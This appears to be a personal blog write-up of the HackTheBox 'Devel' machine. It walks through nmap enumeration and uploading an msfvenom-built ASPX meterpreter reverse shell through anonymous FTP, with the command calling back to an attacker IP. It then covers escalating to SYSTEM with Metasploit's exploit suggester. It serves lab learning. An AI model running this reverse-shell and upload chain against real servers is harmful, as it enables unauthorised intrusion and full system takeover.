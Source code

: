 ```yaml
---
layout: single
title: "Devel - Windows HacktheBox Writeup"
categories:
  - Writeup
tags:
  - Easy
  - Windows
  - HackTheBox
classes:
  - wide
---
```


Today's box is Devel. A Windows box rated easy on HacktheBox. 
This box focused on taking advantage of the FTP anonymous login credentials. Once we have a shell, we can use a exploit suggester on Metasploit to try and privesc and get the system.   


Here are my notes/my writeup for the box:

**ENUMERATION**

Nmap shows us the following: 
```
PORT   STATE SERVICE VERSION

21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT

80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7

Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
First thing I notice, is that we can anonymously log in to FTP. 

We can also visit the website. We just see what looks like a default IIS page.   

**FOOTHOLD**

Let's try log in with FTP anonymous. This works!
First thing we see, are the same files that appear in the Nmap reckon. These actually also tell us that the FTP server is likely in the same root as the HTTP server (because the directory of the website are the files in the FTP server). 
We can quickly test to see if we can add files to this server by uploading one from our terminal.
This works, and we can read it too.
*Note to self: I was only able to read the file if I added the HTML extension to the name.* 

With this information, we'll probably be able to upload a reverse shell to the server.
We know from the Nmap scan that the web server is running Microsoft IIS httpd 7.5. So after a bit of researching, we find out that this version most likely supports ASP.NET. This is great because our Nmap scan also shows this on the FTP port side.

*NB: 
"ASP.NET is an open-source, server-side web-application framework designed for web development to produce dynamic web pages. It was developed by Microsoft to allow programmers to build dynamic web sites, applications and services."*

We can try and look up an something along the lines of 'FTP asp.net reverse shell'.
So it looks like we can craft a payload using msfvenom.
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.28 LPORT=4444 -f aspx -o htb2.aspx
``` 
-p is for payload
-f is for the file type in which to put the shell
-o where to save the entire payload

Now we upload the payload to the FTP server. Open up Metasploit as this shell should open up a meterpreter session. set the payload to the same one: windows/meterpreter/reverse_tcp and set the options. We can run it and also load up our file on the web browser side of things. 
```
10.10.10.5/htb2.aspx
```  
Success! A meterpreter session has opened. 
```
meterpreter > sysinfo

Computer        : DEVEL
OS              : Windows 7 (6.1 Build 7600).
Architecture    : x86
System Language : el_GR
Domain          : HTB
Logged On Users : 0
Meterpreter     : x86/windows

meterpreter > shell

Process 1788 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>   
```
**PRIVILEGE ESCALATION**

When doing this box, I wasn't different tools I could use to escalate privilege on Windows shells. 
So after doing some research, I found out that we could use a module called *'multi/recon/local_exploit_suggester'*. 
So we just background our session and set up this module and run it. 
```
[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 35 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
```

We can see that the exploit range from ones from 2010 to 2016. 
This makes sense because the system used is windows 7, which looked up, was released in 2009
It looks like it hasn't been updated since then.

So I choose the first suggestion as an exploit. 
Running it we become NT AUTHORITY/SYSTEM. 
We have the highest privilege possible. So let's look for these flags!

The first flag was found in the user Babis' Desktop directory. While the system flag was found in the Administrator's Desktop directory. 

This box was great fun, and taught me a lot about using the different modules Metasploit has to offer. I'm starting to grasp the strength of using msfvenom a lot more now, having had to use it multiple times.  